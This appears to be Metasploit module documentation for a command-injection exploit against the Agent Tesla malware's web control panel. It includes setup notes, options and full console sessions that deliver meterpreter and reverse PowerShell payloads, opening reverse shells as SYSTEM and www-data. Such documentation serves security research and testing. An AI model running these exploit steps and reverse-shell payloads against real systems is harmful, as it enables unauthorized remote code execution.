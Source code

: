 ## Introduction

This module exploit the command injection vulnerability in control center of the agent Tesla.

## Setup

Resources for testing are available here:
<https://github.com/mekhalleh/agent_tesla_panel_rce/resources/>

### Windows

I used WAMP server 3.1.9 x64 configured with PHP version 5.6.40 (for ioncube compatibility).

### Linux

I used a Debian 9 on which I installed PHP version 5.6.40 (for ioncube compatibility).

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/agent_tesla_panel_rce`
4. Do: `set RHOSTS 192.168.0.15`
5. Do: `run`

## Targets

```
   Id  Name
   --  ----
   0   Automatic (Dropper)
   1   Unix (In-Memory)
   2   Windows (In-Memory)
```

## Options

**Proxies**

A proxy chain of format type:host:port[,type:host:port][...]. It's optional.

**RHOSTS**

The target IP adress on which the control center responds.

**RPORT**

The target TCP port on which the control center responds. Default: 80

**SSL**

Negotiate SSL/TLS for outgoing connections. Default: false

**TARGETURI**

The base URI path of control center. Default: '/WebPanel

**VHOST**

The target HTTP server virtual host.

## Usage

### Targeting Windows

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set rhosts 192.168.1.21
rhosts => 192.168.1.21
msf5 exploit(multi/http/agent_tesla_panel_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .AUKU.php
[*] Sending stage (38247 bytes) to 192.168.1.21
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.21:1036) at 2019-09-04 01:24:12 +0400

meterpreter >
```

--or--

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set target 2
target => 2
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Sending cmd/windows/reverse_powershell command payload
[*] Command shell session 2 opened (192.168.1.13:4444 -> 192.168.1.21:1040) at 2019-09-04 01:28:55 +0400

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\wamp64\www\WebPanel\server_side\scripts>whoami
nt authority\system

C:\wamp64\www\WebPanel\server_side\scripts>
```

--or--

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set target 2
target => 2
msf5 exploit(multi/http/agent_tesla_panel_rce) > set payload cmd/windows/generic
payload => cmd/windows/generic
msf5 exploit(multi/http/agent_tesla_panel_rce) > set cmd whoami
cmd => whoami
msf5 exploit(multi/http/agent_tesla_panel_rce) > set verbose true
verbose => true
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[+] The target appears to be vulnerable.
[*] Sending cmd/windows/generic command payload
[*] Generated command payload: whoami
[!] Dumping command output in parsed json response
nt authority\system
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/agent_tesla_panel_rce) >
```

### Targeting Linux

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Targeted operating system is: linux
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .WxWf.php
[*] Sending stage (38247 bytes) to 192.168.1.25
[*] Meterpreter session 2 opened (192.168.1.13:4444 -> 192.168.1.25:43260) at 2019-09-04 14:44:07 +0400

meterpreter >
```

--or--

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set target 1
target => 1
msf5 exploit(multi/http/agent_tesla_panel_rce) > set cmd whoami
cmd => whoami
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Sending cmd/unix/generic command payload
[!] Dumping command output in parsed json response
www-data
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/agent_tesla_panel_rce) >
```

## References

  1. <https://www.cyber.nj.gov/threat-profiles/trojan-variants/agent-tesla>
  2. <https://krebsonsecurity.com/2018/10/who-is-agent-tesla/>
  3. <https://github.com/mekhalleh/agent_tesla_panel_rce/resources/>
  4. <https://www.exploit-db.com/exploits/47256>
